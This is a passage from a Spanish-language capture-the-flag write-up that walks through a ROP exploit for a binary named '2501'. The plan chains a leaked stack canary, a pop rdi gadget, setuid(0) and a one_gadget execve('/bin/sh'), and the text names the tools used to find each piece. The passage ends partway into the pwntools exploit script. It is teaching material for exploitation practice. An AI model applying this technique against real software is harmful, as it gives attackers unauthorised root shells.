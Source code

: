 

<p>Genial tenemos el
offset para calcular libc </p>



<p>Ya podemos
empezar a armar nuestro exploit! Tenemos varias posibilidades, pero para esta
vez usare una técnica, que aprendí hace poco, Construiremos nuestro exploit de
la siguiente forma</p>



<p>JUNK + CANARY
+JUNK(hasta ret) + poprdi(en libc)+NULL(para setuid) + SETUID(en libc) +
GADGET(execve(“/bin/sh”))</p>



<p>Para buscar un
pop rdi ret usamos ropper</p>



<figure class="wp-block-image"><img src="/wp-content/uploads/2019/10/Picture17.png" alt="" class="wp-image-155" /></figure>



<p>Para buscar
setuid usamos pwntools y luego buscamos nuestro gadget, esta vez usaremos la
herramienta one_gadget (vaya que es útil) para buscar un execve(“/bin/sh”)</p>



<figure class="wp-block-image"><img src="/wp-content/uploads/2019/10/Picture18.png" alt="" class="wp-image-156" /></figure>



<p>Ahora armemos
todo junto</p>



<figure class="wp-block-image"><img src="/wp-content/uploads/2019/10/Picture19.png" alt="" class="wp-image-157" /></figure>



<p>Listo A ejecutar
remoto!</p>



<figure class="wp-block-image"><img src="/wp-content/uploads/2019/10/Picture20.png" alt="" class="wp-image-158" /></figure>



<p>Desafio concluido! espero les haya gustado :)</p>



<p>Exploit final:</p>



<pre class="wp-block-code"><code>#!/usr/bin/env python2
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux",
               terminal=["gnome-terminal", "new window"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("2501")
e = ELF(TARGET)
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#ejecutar python exploit.py remote (para tomar el proceso en escucha)
#la cuarta direccion que se lekea nos da un offset para calcular libc base
#&gt;&gt;&gt; offset = 0x7ffff7ff2440 - 0x7ffff7a3a000
#&gt;&gt;&gt; print hex(offset)
#0x5b8440
#&gt;&gt;&gt; 